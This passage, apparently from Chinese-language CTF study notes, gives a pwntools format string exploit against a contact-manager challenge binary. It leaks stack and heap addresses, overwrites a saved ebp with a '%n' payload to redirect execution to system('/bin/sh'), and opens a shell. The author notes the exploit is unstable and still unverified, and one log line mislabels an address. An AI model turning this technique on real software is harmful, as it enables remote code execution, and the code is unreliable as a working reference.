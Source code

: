 ```
log.success("system: "+hex(system))
log.success("binsh: "+hex(binsh))

payload = '%6$p%11$pccc'+p32(system)+'bbbb'+p32(binsh)+"dddd"
createcontact(io,'2', '2', '111', payload)
printcontact(io)
io.recvuntil('Description: ')
data = io.recvuntil('ccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)+12
log.success("ebp: "+hex(system))
log.success("heap: "+hex(heap_addr))

part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

#payload=fmtstr_payload(6,{ebp_addr:heap_addr})
##print payload
createcontact(io,'3333', '123456789', '300', payload)
printcontact(io)
io.recvuntil('Description: ')
io.recvuntil('Description: ')
##gdb.attach(sh)
log.success("get shell")
io.recvuntil('>>> ')
##get shell
io.sendline('5')
io.interactive()
```



需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的 ebp 的地址，也没有办法去把这个地址写到栈上，利用 $ 符号去定位他；因为没有办法定位，所以没有办法用 l\ll 等方式去写这个地址，所以只能打印很多。





持续验证不成功，后续继续看看这个题目





 **格式化字符串盲打**



类似BROP，思路

- 确定程序的位数
- 确定漏洞位置
- 利用
